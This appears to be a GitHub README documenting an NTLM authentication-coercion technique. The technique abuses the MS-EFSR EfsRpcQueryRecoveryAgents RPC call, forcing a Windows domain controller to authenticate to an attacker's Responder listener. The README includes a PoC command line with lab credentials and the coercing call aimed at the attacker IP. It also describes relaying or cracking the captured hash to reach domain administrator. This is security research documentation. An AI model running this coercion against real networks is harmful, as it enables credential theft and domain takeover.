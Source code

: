 # MS-EFSR - Remote call to EfsRpcQueryRecoveryAgents (opnum 7)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Function name**: [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea)

 - **Function operation number**: `7`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\efsrpc`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcQueryRecoveryAgents("\\\\192.168.2.51\\share\\file.txt\x00")
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD EfsRpcQueryRecoveryAgents(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [out] ENCRYPTION_CERTIFICATE_HASH_LIST** RecoveryAgents
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **FileName**: An EFSRPC identifier as specified in section 2.2.1.


 - **RecoveryAgents**: A list of certificate hashes, represented by an `ENCRYPTION_CERTIFICATE_HASH_LIST` structure.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcQueryRecoveryAgents`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea